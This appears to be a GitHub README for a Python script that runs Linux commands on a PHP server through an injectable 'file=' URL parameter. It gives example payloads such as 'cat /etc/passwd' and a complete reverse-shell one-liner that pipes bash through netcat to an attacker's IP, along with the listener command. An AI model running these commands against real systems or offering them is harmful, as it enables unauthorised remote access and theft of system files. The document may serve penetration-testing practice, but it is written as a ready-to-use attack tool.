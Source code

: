 Description
This python script allows you to execute linux commands on a vulnerable php server. It works on urls susceptible to php traversal attack with something like: 
# "http://www.example.com/site/index.php?file="
By adding linux commands like: whoami, ls, cat /etc/passwd etc to "file=", response is displayed from the server on the page. 
# eg. "http://www.example.com/site/index.php?file=whoami"
# -> www-server

In the MakeRequest() function, the
# data = {
#        'file': command
#    } 
command is the command user wants to execute on the target. You can change index.php and file to correspond to what is shown in the URL. 

Example:
# python3 remote_command.py <target IP> "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attacker's IP(10.0.2.3)> <attacker's port(443)> >/tmp/f"

Netcat should be listening on the attacker's end like: 
# nc -nvlp 443

Requirement
# pip install requests

Usage
# python3 remote_command.py [host] [command]
